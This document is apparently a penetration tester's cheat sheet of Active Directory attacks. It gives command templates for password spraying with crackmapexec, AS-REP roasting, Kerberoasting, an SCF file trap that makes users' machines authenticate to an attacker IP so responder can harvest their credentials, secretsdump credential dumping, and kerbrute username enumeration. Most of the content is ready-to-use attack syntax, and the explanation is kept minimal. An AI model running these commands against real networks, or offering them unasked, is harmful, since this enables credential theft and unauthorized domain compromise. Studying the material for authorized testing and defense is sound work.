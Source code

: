 ## Miscellaneous Attacks In No Particular Order

**Password Spraying With CrackMapExec**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial. ``crackmapexec`` has a few protocols available. 
```bash
# Test 1 Password with a list of Usernames
crackmapexec <PROTOCOL> <IP> -u <USERLIST> -p '<PASS>' --continue-on-success

# Test 1 Username with a list of Passwords
crackmapexec <PROTOCOL> <IP> -u '<USER>' -p <PASSLIST> --continue-on-success

# Authentication with an NT hash
crackmapexec <PROTOCOL> <IP> -u <USERLIST> -H '<NT_HASH>' --continue-on-success 
```

## Windows / Active Directory Attacks

**AS-REP Roasting**

AS-REP roasting is a technique that allows retrieving password hashes for users that have don't require Kerberos preauthentication. ``impacket`` has a utility that makes this trivial for us. I could only do a bad job explaining this attack, so I've linked much better resources below. It is important to note that this is not found often, if at all, in real world engagements.

```bash
python3 GetNPUsers.py <DOMAIN>/ -dc-ip <IP> -no-pass -usersfile <USERLIST>
```

- [Roasting AS-REPS](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

## Kerberoasting

Kerberoasting is a method for extracting service account credentials from Active Directory as a notmal user. Again, [AD Security](https://adsecurity.org/) has an insane amount of content that goes in depth to what this is, how it works, and when to use it. I won't even bother going into the detail's of the attack here, but articles from them are linked below.

``impacket`` has a utility that makes this trivial for us, ``GetUserSPNs.py``.


```bash
# Normal Authentication
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -save -outputfile hashes.txt

# Authentication with NT and LM Hashes
python3 GetUserSPNs.py -request -dc-ip <IP> -hashes <LM_HASH>:<NT_HASH> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

You can also use the PowerView function if you already have a shell.

```powershell
Import-Module .\PowerView.ps1
Invoke-Kerberoast
```

- [Cracking Kerberos TGS Tickets Using Kerberoast](https://adsecurity.org/?p=2293)
- [Dectecting Kerboasting Activity](https://adsecurity.org/?p=3458)
- [Kerberos Overview](https://adsecurity.org/?p=227)

**SCF File Attack**

An SCF *(Shell Command File)* can be used to access an attacker's UNC path. Planted inside a network share, when a user opens the ``scf`` file, Windows automatically authenticates to the server the UNC is pointing to, using the current user's credentials. We can use ``responder`` or something similar to harvest these credentials and crack them offline.

1) Inside a ``.scf`` file put:

```
[Shell]
Command=2
IconFile=\\<YOUR IP>\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

2) Run [responder](https://github.com/lgandx/Responder) locally

```bash
responder -I <NETWORK INTERFACE>
```

3) Put your ``.scf`` file on a share and wait for a user to open it.

- [SMB Share – SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
- [Stealing Windows Credentials Using Google Chrome](https://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

**Secrets/Credentials Dumping**

The impacket script ``secretsdump.py`` can be used to extract credentials and secrets from a system. There are 2 main use cases:
- Dump NTLM hash of local users (remote SAM dump)
- Extract Domain Credentials via *DC Sync*

There is a lot that can be explained on *how* this works, and  *where* this works; but this is mainly so I can remember tool syntax so I won't bother with going into those details.

```bash
python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<IP> -outputfile secretsdump
```

- [DC Sync Attacks With Secretsdump](https://www.youtube.com/watch?v=QfyZQDyeXjQ)
- [Secretsdump Demystified](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)

**Username Enumeration**

Enumerate valid usernames using ``kerbrute``. This requires Kerberos to the open.

```bash
kerbrute userenum -d <DOMAIN> --dc <IP> <USERLIST>
```

